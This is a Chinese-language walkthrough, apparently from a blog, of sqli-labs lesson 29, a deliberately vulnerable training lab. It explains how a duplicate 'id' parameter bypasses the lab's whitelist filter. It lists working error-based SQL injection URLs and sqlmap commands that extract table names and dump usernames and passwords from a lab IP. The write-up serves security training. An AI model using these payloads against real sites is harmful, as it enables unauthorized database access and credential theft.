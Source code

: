 ```yaml
---
title: sqli-labs lession-29 GET基于错误-阻抗不匹配-有WAF的web应用
date: 2018-10-14 15:10:34
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession 29 GET基于错误-阻抗不匹配-有WAF的web应用

## 登录界面

![001](/img/sql/Lesson-29/001.png)

## 分析

这一课真正的登录界面是在login.php里,跟index.php的区别是进行了过滤。

login.php中接受参数依次通过了自定义函数java_implimentation和whitelist过滤。

![002](/img/sql/Lesson-29/002.png)

```
function java_implimentation($query_string)
{
	$q_s = $query_string;
	$qs_array= explode("&",$q_s);


	foreach($qs_array as $key => $value)
	{
		$val=substr($value,0,2);
		if($val=="id")
		{
			$id_value=substr($value,3,30); 
			return $id_value;
			echo "<br>";
			break;
		}
	}
}

function whitelist($input)
{
	$match = preg_match("/^\d+$/", $input);
	if($match)
	{
		//echo "you are good";
		//return $match;
	}
	else
	{	
		header('Location: hacked.php');
		//echo "you are bad";
	}
}
```

java_implimentation通过explode将url中传递的参数以&分割保存在数组中，随后查找id和id的内容。whitelist检查id的值是否是纯数字。不符合规范跳转错误界面。

![003](/img/sql/Lesson-29/003.png)

但是通过这个例子发现有重复参数的时候它没有检查。&是传参中用来多个参数传递的。就有了下面的绕过方法。

![004](/img/sql/Lesson-29/004.png)

## 手注

### 获取字段数

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' order by 4%23`

![005](/img/sql/Lesson-29/005.png)

### 获取数据库名

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,database(),0x7e))%23`

![006](/img/sql/Lesson-29/006.png)

### 获取表名

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e))%23`

![007](/img/sql/Lesson-29/007.png)

### 获取列名

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e))%23`

![008](/img/sql/Lesson-29/008.png)

### 获取字段

`http://192.168.75.133/sql/Less-29/login.php?id=1&id=2' and extractvalue(null,concat(0x7e,(select concat(username,'~',password) from security.users limit 1,1),0x7e))%23`

![009](/img/sql/Lesson-29/009.png)

## SQLMAP

```
--technique E:检查报错注入方式
--threads 10：并发线程数为10
--flush-session:刷新session
--fresh-queries:发起新查询
-v 3：显示测试过程
```

`sqlmap -u "http://192.168.75.133/sql/Less-29/login.php?id=1&id=2" --dbms mysql --technique E --threads 10 --flush-session --fresh-queries -v 3`

![010](/img/sql/Lesson-29/010.png)

`sqlmap -u "http://192.168.75.133/sql/Less-29/login.php?id=1&id=2" --dbms mysql --technique E --threads 10 --dbs`

![011](/img/sql/Lesson-29/011.png)

`sqlmap -u "http://192.168.75.133/sql/Less-29/login.php?id=1&id=2" --dbms mysql --technique E --threads 10 -D security -T users --columns --dump`

![012](/img/sql/Lesson-29/012.png)

